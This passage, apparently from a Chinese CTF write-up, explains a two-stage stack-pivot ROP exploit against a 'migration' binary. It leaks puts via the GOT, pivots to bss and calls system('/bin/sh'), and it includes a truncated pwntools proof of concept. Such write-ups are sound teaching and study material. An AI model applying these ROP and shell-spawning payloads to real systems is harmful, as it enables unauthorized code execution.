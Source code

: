 ###### 第二步

> payload = p32(bss+0x400) + p32(puts_plt) + p32(pop1ret) + p32(puts_got) + p32(read_plt) + p32(leave_ret) 

- 此时的payload为调用read写入的部分
- bss+0x400：是二次栈迁移的地址
- puts_plt写到了bss+0x504的位置，会被ret指令获取，调用puts(puts_got)，获得puts真实地址
- puts返回后，回到pop1ret，pop掉puts_got参数，并ret到read_plt

> payload += p32(0) + p32(bss+0x400)+ p32(0x100)

- 调用read(0,bss+0x400,0x100)
- 调用结束时，ebp从栈上获取旧ebp=bss+0x400，ret到leave
- leave中：mov esp,ebp;——esp=ebp=bss+0x400【二次栈迁移完成】

###### 第三步

> read时写入到bss+0x400：
>
> payload3= p32(bss+0x500) + p32(read_plt) + p32(pop3ret) + p32(0) + p32bss+0x500) + p32(0x100) + p32(system_add) + 'bbbb' + p32(bss+0x500)

- leave中：pop ebp——不重要了，其实是bss+0x500
- leave中：ret——调用read(0,bss+0x500,0x100)
- 写入"/bin/sh\0"到bss+0x500
- pop3ret，pop掉参数，并返回到system_add("/bin/sh")中

这一步的payload执行完后 栈会被迁移到bss+0x400处

###### 迁移情况

![img](https://img-blog.csdn.net/20180424220326436)

###### 最后

poc

```python
#!/usr/bin/env python
from pwn import*
context.log_level="debug"
 
p = process('./migration')
lib = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./migration')
 
read_plt = elf.symbols['read']
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
read_got = elf.got['read']
buf = elf.bss() + 0x500
buf2 = elf.bss() + 0x400
 
pop1ret = 0x804836d
pop3ret = 0x8048569
leave_ret = 0x08048418
 
puts_lib = lib.symbols['puts']
system_lib = lib.symbols['system']
 
p.recv()
 
log.info("*********************change stack_space*********************")
junk = 'a'*0x28
payload = junk + p32(buf) + p32(read_plt) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x100)
p.send(payload)
 
```